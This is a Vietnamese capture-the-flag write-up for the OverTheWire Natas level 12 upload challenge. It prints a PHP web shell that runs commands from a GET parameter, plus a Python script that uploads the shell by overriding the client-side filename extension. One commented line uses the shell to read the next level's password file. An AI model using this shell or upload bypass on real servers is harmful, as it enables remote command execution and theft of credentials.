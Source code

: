 # Natas12

![1](image/1.png)

- Bài này thuộc dạng *upload* file

- Tức là ta phải `upload` 1 file *backdoor.php* lên server

- Code `backdoor`:

```
	<?php
		$backdoor = $_GET['backdoor'];
		system("$backdoor");
	?>
```

- Vấn đề là *upload* lên thế nào để server chịu nhận

- `Viewsource` xem thử code thế nào

![2](image/2.png)

- Khá bất ngờ là người ra đề không hề kiểm tra file mà *upload* thẳng lên server với tên *random*

- Vấn để là bây giờ server sẽ đổi thẳng đuôi `.php` thành đuổi `.jpg`. Nhưng mà đuôi này được đổi nhờ ảnh hưởng từ phía *client* nhờ form `filename` nên mình sẽ viết code *python* để đổi lại tên trong ô `filename` 

- Code của mình:

```
	import requests

	username = 'natas12'
	password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'

	url = 'http://%s.natas.labs.overthewire.org'%username

	file = {
		'uploadedfile' : open('backdoor.php', 'rb')
	}

	data = {
		'MAX_FILE_SIZE' : '1000',
		'filename' : 'backdoor.php',
		'submit' : 'Upload File'
	}

	response = requests.post(url, auth = (username, password), files = file, data = data)
	# response = requests.post(url+'/upload/i5gpwbn1pc.php?backdoor=cat /etc/natas_webpass/natas13', auth = (username, password))

	print(response.text)
```

![3](image/3.png)

![3](image/4.png)

